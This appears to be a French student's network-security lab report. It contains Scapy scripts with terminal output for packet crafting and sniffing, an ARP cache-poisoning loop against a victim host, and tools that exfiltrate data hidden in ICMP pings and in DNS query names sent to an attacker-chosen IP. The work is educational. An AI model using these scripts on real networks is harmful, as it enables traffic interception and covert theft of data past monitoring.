 # TP4 SECU : Exfiltration

# Sommaire

- [TP4 SECU : Exfiltration](#tp4-secu--exfiltration)
- [Sommaire](#sommaire)
- [0. Setup](#0-setup)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)

# 0. Setup

# I. Getting started Scapy

🌞 **`ping.py`**

```python
from scapy.all import *

ping = ICMP(type=8)
packet = IP(src="10.1.1.101", dst="10.33.76.182")
frame = Ether(src="08:00:27:41:3e:fd", dst="08:00:27:98:a5:d6")

final_frame = frame/packet/ping
answers, unanswered_packets = srp(final_frame, timeout=10)

print(f"Pong reçu : {answers[0]}")
```

```cmd
┌──(quentin㉿kali)-[~/Documents/TP4-reseaux]
└─$ sudo python3 ping.py                                   
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=08:00:27:98:a5:d6 src=08:00:27:41:3e:fd type=IPv4 |<IP  frag=0 proto=icmp src=10.1.1.101 dst=10.33.76.182 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=08:00:27:54:fe:17 src=52:54:00:12:35:02 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=2044 flags= frag=0 ttl=127 proto=icmp chksum=0xd1a8 src=10.33.76.182 dst=10.1.1.101 |<ICMP  type=echo-reply code=0 chksum=0xffff id=0x0 seq=0x0 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>>)
```

🌞 **`tcp_cap.py`**

- fonction `sniff()`
- capture le premier TCP SYN ACK reçu

```python
from scapy.all import sniff

def print_it_please(packet):
    packet_source_ip = packet['IP'].src
    packet_dest_ip = packet['IP'].dst
    port_dst = packet['TCP'].dport
    port_src = packet['TCP'].sport
    print(f"TCP SYN ACK reçu !")
    print(f"- Adresse IP src : {packet_source_ip}")
    print(f"- Adresse IP dst : {packet_dest_ip}")
    print(f"- Port TCP src : {port_src}")
    print(f"- Port TCP dst : {port_dst}")

sniff(filter="tcp and tcp[tcpflags] == (tcp-syn + tcp-ack)", prn=print_it_please, count=1)
```

```cmd
└─$ sudo python3 tpc_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 54.248.234.59
- Adresse IP dst : 10.0.2.15
- Port TCP src : 80
- Port TCP dst : 39604
```

🌞 **`dns_cap.py`**

- fonction `sniff()`
- capturer une requête DNS et sa réponse
  - une requête DNS pour connaître l'IP de `ynov.com`

```python
from scapy.all import sniff, DNS

def print_it_please(packet):
    if DNS in packet and packet[DNS].qr == 1:
        dns_answers = packet[DNS].an
        for answer in dns_answers:
            if answer.type == 1:
                ip_address = answer.rdata
                print(ip_address)

sniff(filter="udp and port 53", prn=print_it_please, count=2)

```

🌞 **`dns_lookup.py`**

- craftez une requête DNS à la main

```python
from scapy.all import IP, srp, Ether, UDP, DNS, DNSQR

dns_request = Ether()/IP(dst='8.8.8.8')/ UDP() /DNS(rd=1,qd=DNSQR(qname="www.ynov.com"))

result = srp(dns_request, timeout=2, verbose=True)
response , _ = result
print(response.show())
```

# II. ARP Poisoning

🌞 **`arp_poisoning.py`**

- craftez une trame ARP qui empoisonne la table d'un voisin
  - je veux que, pour la victime, l'adresse IP `10.13.33.37` corresponde à la MAC `de:ad:be:ef:ca:fe`

```python
from scapy.all import ARP, send

def poison():
    VictimeIP = "10.13.33.51"
    VictimeMac = "08:00:27:a1:6c:cf"
    PoisonnedIP = "10.13.33.37"
    PoisonnedMac = "de:ad:be:ef:ca:fe"
    send(ARP(op = 2, pdst = VictimeIP, psrc = PoisonnedIP, hwdst= VictimeMac, hwsrc= PoisonnedMac))

while True:
    poison()
```

```cmd
[quentin@localhost ~]$ ip n s
10.13.33.37 dev enp0s8 lladdr de:ad:be:ef:ca:fe REACHABLE
```

# II. Exfiltration ICMP

🌞 **`icmp_exf_send.py`**

- envoie un caractère passé en argument dans un ping
  - un seul caractère pour le moment
- l'IP destination est aussi passée en argument

```python
from scapy.all import *
from scapy.all import IP, ICMP
from sys import argv

packet = IP(dst=argv[0])/ICMP()/str(argv[1])
send(packet)
```

🌞 **`icmp_exf_receive.py`**

- sniff le réseau
- affiche **UNIQUEMENT** le caractère caché si un paquet ICMP d'exfiltration est reçu et quitte après réception de 1 paquet
- si un ping legit est reçu, ou n'importe quoi d'autre votre code doit continuer à tourner

```python
from scapy.all import sniff

def print_it_please(packet):
    if (packet['ICMP'].type == 8 and len(packet['Raw'].load) == 1):
        print(packet['Raw'].load)
        quit()

sniff(filter="icmp", prn=print_it_please, count=0)
```

# III. Exfiltration DNS

🌞 **`dns_exfiltration_send.py`**

- envoie des données passées en argument à l'IP passée en argument
- utilise le protocole DNS pour exfiltrer lesdites données
- une string de 20 caractères doit pouvoir être exfiltrée

```python
from scapy.all import srp, DNS, IP, UDP, Ether, DNSQR
from sys import argv

def dns_sender(message):
    target = argv[1]
    dns_pkt = Ether() / IP(dst=target) / UDP(dport=53) / DNS(qd=DNSQR(qname=message))
    ans, unans = srp(dns_pkt, timeout=2, verbose=True)

for i in range(0, len(argv[2]), 20):
        substring = argv[2][i:i + 20]
        dns_sender(substring)
```